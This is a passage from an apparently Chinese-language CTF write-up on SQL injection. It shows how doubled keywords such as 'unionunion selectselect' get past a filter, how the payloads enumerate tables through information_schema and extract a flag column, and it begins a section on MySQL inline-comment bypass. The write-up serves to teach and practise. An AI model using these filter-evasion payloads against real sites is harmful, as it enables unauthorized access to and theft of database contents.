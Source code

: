 发现过滤成功了，但是并没有获取我想要的数据，而道理应该对了，而且已经执行了，猜测是不是#好屏蔽了什么？试试

```sql
1"  unionunion  selectselect  database() "
```

<img src="https://www.crabglory.club/img/post/network security/images/sql_inject/simple_sql_inject_4.png" />

发现还是不对，没有执行。

```sql
-- 尝试下面的语句，发现没有报错，说明" 可能被拦截或者其他问题
1" 
-- 报错，说明注入成功，可以再尝试 1' or '1'='1
1'  =
-- 成功
1'  unionunion  selectselect  database()' 
```

<img src="https://www.crabglory.club/img/post/network security/images/sql_inject/simple_sql_inject_5.png" />

这样就好了，发现数据库是web1，可以查询一下有哪些表，尝试着根据数据库名字来查，发现老是出错，后面简化

```sql
1' unionunion  selectselect  table_name fromfrom  information_schema.tables wherewhere  table_schemtable_schemaa='web1
```

<img src="https://www.crabglory.club/img/post/network security/images/sql_inject/simple_sql_inject_6.png" />

找flag这张表的信息，发现有点诡异，报错：`Got error 28 from storage engine`

猜测列名为：`flag`

```sql
1' unionunion  selectselect  flag  fromfrom   flag  wherewhere   '1'='1
```

<img src="https://www.crabglory.club/img/post/network security/images/sql_inject/simple_sql_inject_7.png" />

**总结一下**：

- 对于一个执行语句来说，他可能有的需要双字，有的不需要，这是一个组合要不断根据服务器的反应来进行尝试。
- 对于一个关键字来说，双字可以在字里面，也可以在字两边，这个要尝试。





###### 内联注释绕过



>内联注释是MySQL为了保持与其他数据兼容，将MySQL中特有的语句放在`/*!*/`中，
>
>这些语句在不兼容的数据库中不执行，而在MySQL自身却能识别，执行。
>`/!50001/`表示数据库版本>=5.00.01时中间的语句才能被执行
>
>看一下mysql中使用`/*!and*/`的效果，发现被注释的关键字是有用的。
